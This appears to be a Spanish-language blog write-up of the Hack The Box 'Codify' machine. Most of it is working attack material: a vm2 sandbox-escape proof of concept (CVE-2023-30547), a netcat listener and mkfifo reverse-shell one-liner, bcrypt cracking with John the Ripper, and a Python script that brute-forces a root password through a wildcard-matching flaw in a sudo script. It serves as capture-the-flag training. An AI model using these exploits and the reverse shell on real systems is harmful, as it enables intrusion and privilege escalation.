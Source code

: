 ```yaml
---
layout: single
title: HTB Codify writeup
date: 2023-11-07
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```








<h1>Resumen || </h1><br>
<div style="text-align: justify;">
Codify es una máquina Linux que ejecuta un servidor HTTP y aloja una aplicación web desactualizada. Aprovecharemos las vulnerabilidades en esta aplicación para acceder al sistema, donde descubriremos credenciales encriptadas en formato bcrypt. Estas credenciales pueden ser explotadas de manera sencilla utilizando John The Ripper. Una vez que hayamos obtenido acceso al usuario Joshua, investigaremos cómo vulnerar un código en bash que cuenta con permisos sudo pero no está implementado con todas las medidas de seguridad necesarias. Esto nos permitirá elevar nuestros privilegios al nivel de root.
</div>
<br><br>



# Reconocimiento

## Puertos

Realizamos un escaneo rápido de puertos y versiones de servicios a la máquina víctima:

```shell
└─$ nmap -p- -sV 10.10.11.239 -T5 -oN nmap.txt -vvv
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175436.png)


## Web

El puerto 80 tiene un servidor http activo: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107175901.png)

A simple vista hay tres páginas: `/limitations`, `/about`, `/editor`.

El servidor contiene una aplicación web que permite testear código Node JS. Una Reverse Shell sencilla en este lenguaje no funciona por los módulos restringidos: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180512.png)

La aplicación funciona mediante la libreria vm2 en la versión 3.9.16. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107180126.png)



# Penetración 

## Web

La versión 3.9.16 de la librería vm2 tiene una vulnerabilidad registrada como [CVE-2023–30547](https://nvd.nist.gov/vuln/detail/CVE-2023-30547), que permite escapar de las restricciones del editor. Con ello podemos ejecutar código malicioso y una reverse shell con la que acceder al sistema víctima. 


### Exploit

Haremos uso del siguiente [PoC](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244):

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

![](/assets/images/HTB-writeup-codify/Pasted image 20231107181134.png)

Una vez confirmada la vulnerabilidad, el acceso es ya algo mecánico. Abrimos puerto en escucha: 

```shell
nc -lvp <port>
```

Introducimos una [reverse shell](https://www.revshells.com/) con el siguiente comando: 

```shell 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <your ip> <port> >/tmp/f
```



![](/assets/images/HTB-writeup-codify/Pasted image 20231107181459.png)

Una vez dentro, vamos a necesitar, por comodidad, una shell con todas sus funciones. Habrá que ejecutar lo siguiente: 

```shell
script /dev/null -c bash
tty
CTRL+Z
stty raw -echo;fg
reset
xterm
export TERM=xterm
```

En `/home` vemos un usuario posiblemente vulnerable: `joshua`
En `/var/www/contact` hay un archivo SQLite con un hash en bcrypt. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182336.png)

Con John The Ripper se tarda menos de treinta segundos en hacerse cargo de ella: 

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=bcrypt
```


# Acceso y Escalada de Privilegios

```shell
ssh joshua@10.10.11.239
```

Aquí está la flag `user.txt`.

Para escalar privilegios vamos a revisar qué puede hacer nuestro usuario Joshua: 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107182843.png)

Parece ser que podemos ejecutar un comando con permisos sudo que pregunta por la contraseña root. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183231.png)

Está programado con ciertas vulnerabilidades de seguridad. Como la comparación if viene en doble corchete, el programa leerá por igual `[[$DB_PASS == Pass]]` que `[[$DB_PASS == P*]]`. Esto nos permite adivinar la contraseña mediante fuerza bruta, testando cada dígito 1 a 1.  Probando `[[$DB_PASS == a*]]` `[[$DB_PASS == b*]]`... La teoría detrás de esto se puede leer [aquí](https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching).


El camino fácil es construir un script en python que lo automatice. 

```python
import string  
import subprocess  
all = list(string.ascii_letters + string.digits)  
password = ""  
found = False  
  
while not found:  
    for character in all:  
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"  
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout  
  
        if "Password confirmed!" in output:  
            password += character  
            print(password)  
            break  
    else:  
        found = True
```

Lo creamos en `/tmp`, le damos permisos de ejecución y nos da la contraseña en cuestión de minutos. 

![](/assets/images/HTB-writeup-codify/Pasted image 20231107183856.png)
